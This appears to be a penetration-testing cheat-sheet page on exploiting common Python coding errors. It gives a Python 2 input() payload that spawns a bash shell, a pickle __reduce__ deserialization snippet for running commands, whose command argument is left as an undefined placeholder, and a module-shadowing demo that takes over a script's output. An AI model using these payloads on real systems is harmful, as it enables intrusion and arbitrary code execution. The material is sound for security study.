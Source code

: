 # Python

Python is a language powering an extraordinary number of applications, but here we're just going to focus on very common coding errors you're likely to find. These can be useful in cases of both web applications as well as local and exploiting any of these is incredibly context specific.

## python2 input

In python 2, the input function worked in an interesting manner. It queried for user input, executed the input given to it directly, allowing us to, for example, have an integer returned directly from the result of the function. However, this also allowed any arbitrary code to be injected. In cases where you have a python 2 style input mechanism, simply write the following:

```python
__import__('os').system('/bin/bash')
```

In python 3 this was removed, and raw\_input from python 2 replaced it.

## Pickle Deserialization

During pickle deserialization, it is possible to create a situation where arbitrary code is executed. This is because the reduce method defines how the object itself is de-serialized, and so will be executed when pickle.loads is called:

```python
import subprocess
class BadPickle(object):
    def __reduce__(self):
        return (subprocess.check_output, (chars,))
print cPickle.dumps(BadPickle())
```

**Further Reading**  
[https://blog.nelhage.com/2011/03/exploiting-pickle/    
](https://blog.nelhage.com/2011/03/exploiting-pickle/%20)[https://sensepost.com/blog/2010/playing-with-python-pickle-%231/    
](https://sensepost.com/blog/2010/playing-with-python-pickle-%231/%20)[https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html)

## Module Overwrite

Consider the following program:

```python
import base64
print base64.b64decode('VW5pY29ybidzIGFyZSBraWNrIGFzcyE=')
```

Running it will output a base64 decoded string:

```python
root@kali:~/pyexample# python example.py
Unicorn's are kick ass!
```

Let's create a file called base64.py in the same folder and include within it the following:

```python
def b64decode(oldinput):
    return 'Welcome to my Evil Function!'
```

Now we get a very different output:

```bash
root@kali:~/pyexample# ls
base64.py  base64.pyc  example.py
root@kali:~/pyexample# python example.py
Welcome to my Evil Function!
```

In module importing, the interpreter will first check the local directory before checking the installed modules. Consequently, it is more than possible to take over a python scripts execution, even if we don't have write-access to it.

A good reference for how these things work is [this Stackoverflow post](https://stackoverflow.com/questions/31849378/whats-the-order-python-used-to-import-module).

